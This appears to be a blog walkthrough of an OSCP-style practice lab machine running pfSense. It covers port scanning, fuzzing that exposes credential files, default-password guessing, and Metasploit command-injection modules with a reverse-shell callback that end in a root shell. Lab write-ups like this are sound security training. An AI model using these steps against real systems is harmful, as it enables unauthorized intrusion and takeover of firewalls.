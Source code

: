```yaml
---
layout: post
title: "sense"
date: 2025-09-03 
categories: OSCP Playlist
---
```

# sense

## Summary:

- Fuzz for config files, specifically txt files; found credentials
- Found version of pfsense to find command injection vulnerability in a PHP page on pfSense via a GET parameter
- Used metasploit exploit to get root shell

First enumerate the ports and services:

```bash
sudo nmap -sC -sV 10.10.10.60 -oN nmap/sense

PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-title: Login
|_ssl-date: TLS randomness does not represent time
|_http-server-header: lighttpd/1.4.35

rustscan -a 10.10.10.60 
```

There’s an http and https server. The version also seems unique; 1.4.35 lighttpd

Searching up the version reveals two vulnerabilities, an sql injection and a path traversal. Let’s keep that in mind and visit the site:

![image.png]({{ site.baseurl }}/assets/sense/image.png)

It’s a pfsense software, judging from the Title. Let’s try default password:

```bash
admin:admin
admin:pfsense
```

Let’s download the exploit we found here by searching lighttpd 1.4.35 exploit https://github.com/sp4c30x1/uc_httpd_exploit?tab=readme-ov-file

The script appends ../ after the target IP

```bash
python3 vltz.py https://10.10.10.60 /etc/passwd
```

Did not work.

Let’s fuzz:

```bash
feroxbuster -u https://10.10.10.60 -k

ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u https://10.10.10.60/FUZZ -ic -e .txt

themes                  [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 37ms]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 21ms]
includes                [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 20ms]
javascript              [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 21ms]
changelog.txt           [Status: 200, Size: 271, Words: 35, Lines: 10, Duration: 26ms]
classes                 [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 25ms]
widgets                 [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 26ms]
tree                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 22ms]
shortcuts               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 24ms]
installer               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 25ms]
wizards                 [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 19ms]
                        [Status: 200, Size: 6690, Words: 907, Lines: 174, Duration: 95ms]
csrf                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 27ms]
system-users.txt        [Status: 200, Size: 106, Words: 9, Lines: 7, Duration: 34ms]
```

changelog.txt:

```bash
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

system-users.txt:

```bash
####Support ticket###

Please create the following user

username: Rohit
password: company defaults
```

Let’s try to log in with the obtained credential:

```bash
#The above did not work, maybe the password is default pfsense password?
rohit:pfsense
```

We are in.

![image.png]({{ site.baseurl }}/assets/sense/image%201.png)

We see that the copyright goes up to 2014, so it is probably a 2014 version. Also it says on top 2.1.3_RELEASE. Searching pfsense 2014 exploit reveal metasploit exploits are available. Let’s check:

```bash
msfconsole
search pfsense

exploit/unix/http/pfsense_group_member_exec     2017-11-06       excellent  Yes    pfSense authenticated group member RCE

use 7
set RHOSTS 10.10.10.60
set LHOST tun0
set USERNAME rohit
```

Did not work. Let’s try another:

CVE-2016-10709

command injection vulnerability in a PHP page on pfSense via a GET parameter

```bash
exploit/unix/http/pfsense_graph_injection_exec  2016-04-18       excellent  No     pfSense authenticated graph status RCE

use 6
set RHOSTS 10.10.10.60
set LHOST tun0
set USERNAME rohit

```

Success. We are in.

```bash
shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image.png]({{ site.baseurl }}/assets/sense/image%202.png)

Seems like we are root…